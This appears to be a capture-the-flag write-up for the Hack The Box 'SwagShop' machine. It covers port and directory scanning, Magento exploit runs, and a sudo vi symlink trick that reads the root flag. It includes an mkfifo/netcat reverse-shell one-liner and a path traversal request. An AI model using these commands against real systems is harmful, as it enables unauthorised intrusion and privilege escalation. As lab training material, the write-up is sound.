










# SwagShop - Easy

Target IP: **10.129.229.138**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.229.138 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.29.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```swagshop.htb``` to our hosts file and navigate.

We are greeted with this home page. There are products listed that we can put into a cart.



Clicking on the items seems to pull an html page from the back end that corresponds to the item. Perhaps we can include local files.



Let's try it. We can request for ```/etc/passwd```: ```http://swagshop.htb/index.php/../../../../etc/passwd/?SID=lpvk209i2ogbbodvvpropu53j2```

The website seems to sanitize the file, erasing all of the ```../```'s.



Let's enumerate further. Directory enumeration gets us a few hits, but ```mage``` in particular is interesting.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-svrkb3ttvk]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://swagshop.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://swagshop.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

media                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 16593, Words: 3204, Lines: 328, Duration: 90ms]
includes                [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 6ms]
lib                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 6ms]
app                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 6ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
shell                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 6ms]
skin                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 6ms]
var                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 6ms]
errors                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 6ms]
mage                    [Status: 200, Size: 1319, Words: 202, Lines: 55, Duration: 7ms]
                        [Status: 200, Size: 16593, Words: 3204, Lines: 328, Duration: 133ms]
:: Progress: [87651/87651] :: Job [1/1] :: 6451 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

It seems to be a script.



The store was using Magento Commerce. Let's try to find out what version it is.

Directory listing is enabled on ```/app```.



On ```/app/etc/local.xml```, we find a set of credentials, seemingly for a MySQL database running on the backend.



```/var``` also has directory listing enabled.



Inside ```/var/package```, there is a file for Magento 1.9.0.



Let's look for publicly disclosed vulnerabilities for this version. This is apparently vulnerable to SUPEE-5344 (Shoplift bug), an unauthenticated RCE. I found a [PoC](https://github.com/Hackhoven/Magento-Shoplift-Exploit) that we can try.

The admin login page is located at ```/index.php/admin```.



After running the exploit, we get an admin account registered.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-svrkb3ttvk]─[~]
└──╼ [★]$ python3 magento_rce.py swagshop.htb/index.php 44y Password
Exploit Successful
Login URL: http://swagshop.htb/index.php/admin/Cms_Wysiwyg/directive/index//admin with credentials 44y:Password
```

We can log in to the admin page now.



There is another vulnerability, SUPEE-6285, this time being an authenticated RCE.

Searchsploit has an exploit for this, ```37811.py```. Let's try it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-svrkb3ttvk]─[~]
└──╼ [★]$ searchsploit magento
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                     | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting          | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting    | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                   | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                              | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                | php/webapps/37811.py
```

I had some troubles with the searchsploit exploit as always, so I found another [PoC](https://github.com/Hackhoven/Magento-RCE). Let's try this instead.

After running the exploit, we catch a shell as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-svrkb3ttvk]─[~]
└──╼ [★]$ python3 magento-rce-exploit.py http://swagshop.htb/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.194 4444 >/tmp/f"
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-svrkb3ttvk]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.229.138 45494
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

There is a ```haris``` user in ```/home```, and we have permissions to read the user flag.

```
www-data@swagshop:/home$ ls
haris
www-data@swagshop:/home$ cd haris
www-data@swagshop:/home/haris$ ls -la
total 36
drwxr-xr-x 4 haris haris 4096 Oct 13  2023 .
drwxr-xr-x 3 root  root  4096 Nov 12  2021 ..
-rw------- 1 haris haris   54 May  2  2019 .Xauthority
lrwxrwxrwx 1 root  root     9 May  8  2019 .bash_history -> /dev/null
-rw-r--r-- 1 haris haris  220 May  2  2019 .bash_logout
-rw-r--r-- 1 haris haris 3771 May  2  2019 .bashrc
drwx------ 2 haris haris 4096 Nov 12  2021 .cache
drwx------ 3 haris haris 4096 Oct 13  2023 .gnupg
lrwxrwxrwx 1 root  root     9 Oct 10  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 haris haris  655 May  2  2019 .profile
-rw-r--r-- 1 haris haris   33 Oct  6 19:52 user.txt
```

## Root Flag

We are able to run ```/usr/bin/vi /var/www/html/*``` as ```root```. In other words, we can run ```vi``` as ```root``` on anything in ```/var/www/html/```.

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

An idea that I get here is to simply place a symlink to the root flag in ```/var/www/html```, then use ```vi``` to read it.

```
www-data@swagshop:/var/www/html$ ln -s /root/root.txt link
lrwxrwxrwx  1 www-data www-data     14 Oct  7 16:39 link -> /root/root.txt
```

Running the command, we can indeed read the root flag.

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/link

***********************
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
"/var/www/html/link" [readonly] 1L, 33C                       1,1           All
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
